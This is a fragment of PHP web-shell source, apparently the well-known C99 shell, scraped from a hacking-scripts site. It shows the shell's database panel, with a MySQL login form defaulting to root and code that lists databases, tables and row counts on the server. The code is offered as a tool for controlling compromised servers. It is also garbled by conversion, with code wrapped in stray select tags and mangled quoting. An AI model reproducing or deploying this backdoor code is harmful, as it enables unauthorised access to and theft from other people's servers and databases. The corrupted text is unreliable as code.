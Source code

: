 &lt;tr&gt;
&lt;td&gt;&lt;b&gt;Username&lt;/b&gt;&lt;/td&gt;
&lt;td&gt;&lt;b&gt;Password&lt;/b&gt;&lt;/td&gt;
&lt;td&gt;&lt;b&gt;Database&lt;/b&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;tr&gt;
&lt;td&gt;&lt;input type="text" maxlength="64" name="sql_login" value="root" /&gt;&lt;/td&gt;
&lt;td&gt;&lt;input type="password" maxlength="64" name="sql_passwd" value="" /&gt;&lt;/td&gt;
&lt;td&gt;&lt;input type="text" maxlength="64" name="sql_db" value="" /&gt;&lt;/td&gt;
&lt;td&gt;&lt;b&gt;Host&lt;/b&gt;&lt;/td&gt;
&lt;td&gt;&lt;b&gt;PORT&lt;/b&gt;&lt;/td&gt;
&lt;td align="right"&gt;&lt;input type="text" maxlength="64" name="sql_server" value="localhost" /&gt;&lt;/td&gt;
&lt;td&gt;&lt;input type="text" maxlength="6" name="sql_port" size="3" value="3306" /&gt;&lt;/td&gt;
&lt;td&gt;&lt;input type="submit" value="Connect" /&gt;&lt;/td&gt;
&lt;td&gt;&lt;/td&gt;
&lt;/tr&gt;
&lt;/tbody&gt;
&lt;/table&gt;
&lt;/td&gt;
&lt;!--?php }  else  {   //Start left panel   if (!empty($sql_db))   {    ?--&gt;
&lt;td valign="top" width="25%" height="100%"&gt;&lt;a href="&lt;?php echo $surl."&gt;"&gt;&lt;b&gt;Home&lt;/b&gt;&lt;/a&gt;

&lt;hr noshade="noshade" size="1" /&gt;

&lt;!--?php &lt;br ?--&gt; $result = mysql_list_tables($sql_db);
 if (!$result) {echo mysql_smarterror();}
 else
 {
 echo "---[ &lt;a href="\&quot;&quot;.$sql_surl.&quot;&\&quot;"&gt;&lt;b&gt;".htmlspecialchars($sql_db)."&lt;/b&gt;&lt;/a&gt; ]---
";
 $c = 0;
 while ($row = mysql_fetch_array($result)) {$count = mysql_query ("SELECT COUNT(*) FROM ".$row[0]); $count_row = mysql_fetch_array($count); echo "&lt;b&gt;� &lt;a href="\&quot;&quot;.$sql_surl.&quot;sql_db=&quot;.htmlspecialchars($sql_db).&quot;&sql_tbl=&quot;.htmlspecialchars($row[0]).&quot;\&quot;"&gt;&lt;b&gt;".htmlspecialchars($row[0])."&lt;/b&gt;&lt;/a&gt; (".$count_row[0].")&lt;/b&gt;"; mysql_free_result($count); $c++;}
 if (!$c) {echo "No tables found in database.";}
 }
 }
 else
 {
 ?&gt;&lt;/td&gt;
&lt;td valign="top" width="1" height="100"&gt;&lt;a href="&lt;?php echo $sql_surl; ?&gt;"&gt;&lt;b&gt;Home&lt;/b&gt;&lt;/a&gt;

&lt;hr noshade="noshade" size="1" /&gt;

&lt;!--?php    $result = mysql_list_dbs($sql_sock);    if (!$result) {echo mysql_smarterror();}    else    {     ?--&gt;
&lt;form action="&lt;?php echo $surl; ?&gt;"&gt;&lt;input type="hidden" name="act" value="sql" /&gt;&lt;input type="hidden" name="sql_login" value="&lt;?php echo htmlspecialchars($sql_login); ?&gt;" /&gt;&lt;input type="hidden" name="sql_passwd" value="&lt;?php echo htmlspecialchars($sql_passwd); ?&gt;" /&gt;&lt;input type="hidden" name="sql_server" value="&lt;?php echo htmlspecialchars($sql_server); ?&gt;" /&gt;&lt;input type="hidden" name="sql_port" value="&lt;?php echo htmlspecialchars($sql_port); ?&gt;" /&gt;
&lt;select name="sql_db"&gt;&lt;!--?php &lt;br ?--&gt; $c = 0;&lt;/select&gt;
&lt;select name="sql_db"&gt;$dbs = "";&lt;/select&gt;
&lt;select name="sql_db"&gt;while ($row = mysql_fetch_row($result)) {$dbs .= "&lt;/select&gt;
&lt;select name="sql_db"&gt;&lt;option selected="selected" value="\&quot;&quot;.$row[0].&quot;\&quot;&quot;;"&gt;".$row[0]."&lt;/option&gt;&lt;/select&gt;
&lt;select name="sql_db"&gt;"; $c++;}&lt;/select&gt;

 [1]: http://hackingscripts.com/c99-shell/ "C99 Shell"
 [2]: http://hackingscripts.com/wp/wp-content/uploads/2014/01/c999.png
